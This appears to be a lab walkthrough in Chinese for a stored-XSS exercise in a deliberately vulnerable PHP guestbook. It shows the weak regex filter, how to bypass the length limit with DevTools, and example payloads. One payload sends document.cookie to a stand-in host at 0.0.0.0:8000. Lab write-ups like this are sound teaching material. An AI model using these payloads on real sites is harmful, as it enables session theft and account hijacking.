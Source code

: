 # XSS (Stored) - High

## View Source

```PHP
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

- [`preg_replace($a, $b, $c)`](https://www.php.net/manual/zh/function.preg-replace.php)
    - 將 *c* 內符合 *a* 的換成 *b*
    - [*Pattern Modifiers*](https://www.php.net/manual/zh/reference.pcre.pattern.modifiers.php)
        - `i`: 大小寫不敏感
    - `.` Match any character (except newline)
    - `*` Match 0 or more times

## Code Review

- *Name* 的欄位有 `<script` 這個順序的輸入就替換成空字串
- 一樣有前端限制長度和資料庫欄位長度限制

## Answer

- 需要在 *Name* 注入
- 如果 *Payload* 超過前端限制，用 *F12 DevTools* 修改即可

### Example

```
<img src onerror=alert(1)>
<a onclick="window.open('http://0.0.0.0:8000/?cookie=' + document.cookie)">A</a>
```